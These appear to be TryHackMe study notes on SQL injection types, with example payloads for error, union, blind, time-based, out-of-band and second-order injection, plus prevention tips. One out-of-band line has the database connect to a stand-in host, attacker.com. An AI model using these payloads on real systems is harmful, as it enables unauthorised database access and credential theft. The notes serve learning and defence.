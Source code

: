 # TryHackMe: SQL Injection 

Room URL: https://tryhackme.com/room/sqlinjectionlm


# SQL Injection (SQLi) Summary

SQL Injection (SQLi) is a type of security vulnerability that allows an attacker to interfere with the queries that an application makes to its database. It is one of the most common and dangerous web vulnerabilities.

---

## Common SQLi Types

### 1. Classic (In-Band) SQL Injection

#### ➤ Explanation:
The attacker uses the same communication channel to both launch the attack and retrieve results.

#### ➤ Subtypes:
- **Error-Based SQLi**: Forces the database to generate error messages which reveal information.
- **Union-Based SQLi**: Uses the `UNION` SQL operator to combine results of two or more `SELECT` queries.

#### ➤ Example (Error-Based):
```sql
http://example.com/product?id=1' -- 
```
If vulnerable, it could generate an error like:
```
You have an error in your SQL syntax; check the manual...
```

#### ➤ Example (Union-Based):
```sql
http://example.com/product?id=1 UNION SELECT username, password FROM users --
```

---

### 2. Blind SQL Injection

#### ➤ Explanation:
The application does not show error messages. Instead, the attacker infers information based on application behavior.

#### ➤ Subtypes:
- **Boolean-Based (Content-Based)**: Sends a query that returns different results depending on whether the condition is true or false.
- **Time-Based**: Uses database time delay functions to infer information.

#### ➤ Example (Boolean-Based):
```sql
http://example.com/item?id=1' AND 1=1 -- (page loads normally)
http://example.com/item?id=1' AND 1=2 -- (different behavior or blank page)
```

#### ➤ Example (Time-Based):
```sql
http://example.com/item?id=1' AND IF(1=1, SLEEP(5), 0) -- 
```
Response is delayed = true condition confirmed.

---

### 3. Out-of-Band SQL Injection

#### ➤ Explanation:
Data is retrieved using a different channel (e.g., DNS or HTTP), often used when in-band is not possible.

#### ➤ Example:
```sql
'; EXEC xp_dirtree '\attacker.com\share' -- 
```
This may cause the database server to make an outbound connection to the attacker.

---

### 4. Second-Order SQL Injection

#### ➤ Explanation:
Malicious SQL code is stored in the database and later executed in a different context when retrieved.

#### ➤ Example:
```sql
-- User input in a form field:
username = "admin'--"

-- Later, when admin logs in, a query like:
SELECT * FROM users WHERE username = '$username'
-- becomes:
SELECT * FROM users WHERE username = 'admin'--'
```

---

## Prevention Tips

- Use **parameterized queries** (prepared statements).
- Employ **ORMs** (Object-Relational Mapping tools).
- Validate and sanitize all inputs.
- Implement **least privilege** database accounts.
- Use **Web Application Firewalls (WAFs)**.
- Monitor and log suspicious activity.

---

## References

- [OWASP SQL Injection Guide](https://owasp.org/www-community/attacks/SQL_Injection)
- [PortSwigger Web Security Academy - SQLi](https://portswigger.net/web-security/sql-injection)
- [Acunetix - Types of SQL Injection](https://www.acunetix.com/blog/articles/sql-injection-types/)
- [Cheat Sheet Series: SQL Injection](https://cheatsheetseries.owasp.org/cheatsheets/SQL_Injection_Prevention_Cheat_Sheet.html)

---
